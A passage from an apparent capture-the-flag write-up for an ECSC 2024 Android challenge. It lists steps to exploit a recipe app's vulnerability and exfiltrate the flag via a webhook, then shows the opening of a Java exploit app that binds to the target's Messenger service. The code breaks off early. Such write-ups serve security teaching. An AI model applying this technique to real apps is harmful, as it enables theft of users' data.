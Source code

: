 - Create a new recipe
- Add the secret ingredient to the recipe by exploiting the vulnerability
- List the recipes
- Exfiltrate the flag using a webhook

## Exploit

```java
package it.ecsc2024.jeopardy.exploit;

import android.app.Activity;
import android.app.PendingIntent;
import android.content.ComponentName;
import android.content.Context;
import android.content.Intent;
import android.content.ServiceConnection;
import android.os.Bundle;
import android.os.Handler;
import android.os.IBinder;
import android.os.Looper;
import android.os.Message;
import android.os.Messenger;
import android.os.RemoteException;
import android.util.Log;

import androidx.annotation.Nullable;

import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.URL;
import java.net.URLConnection;
import java.util.concurrent.atomic.AtomicReference;
import java.util.function.Consumer;

public final class MainActivity extends Activity {
    private static final String TAG = "MainActivity";
    private Messenger mService = null;
    private ReplyHandler mReplyHandler;
    private Messenger mReplyTo;
    private Consumer<Bundle> mCallback;
    private final ServiceConnection mConnection = new ServiceConnection() {
        @Override
        public void onServiceConnected(ComponentName name, IBinder service) {
            mService = new Messenger(service);
            Log.d(TAG, "Service connected");

            new Thread(() -> exploit()).start();
        }

        @Override
        public void onServiceDisconnected(ComponentName name) {
            mService = null;
            Log.d(TAG, "Service disconnected");
        }
    };

    @Override
    protected void onCreate(@Nullable Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
    }

    private void exploit() {
        Bundle createData = new Bundle();
```